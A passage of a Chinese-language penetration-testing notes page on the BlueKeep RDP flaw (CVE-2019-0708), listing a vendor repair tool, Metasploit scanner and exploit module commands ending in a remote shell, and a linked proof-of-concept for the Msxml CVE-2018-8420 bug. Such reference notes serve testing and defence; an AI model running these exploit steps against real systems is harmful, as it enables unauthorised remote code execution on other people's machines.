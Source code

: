 - 修复工具
    - ["CVE-2019-0708"漏洞检测修复工具](https://www.qianxin.com/other/CVE-2019-0708)

- MSF 模块
    ```bash
    # 发现,检测
    use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
    set rhosts <ip>
    run
    ```
    ```bash
    # 利用
    use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
    set target <1-7>
    set rhosts <ip>
    show options
    exploit
    shell
    python
    ```

---

## 其他
**CVE-2018-8420 Msxml 解析器的远程代码执行漏洞**
- POC | Payload | exp
    - [Lz1y/CVE-2018-8420](https://github.com/Lz1y/CVE-2018-8420)
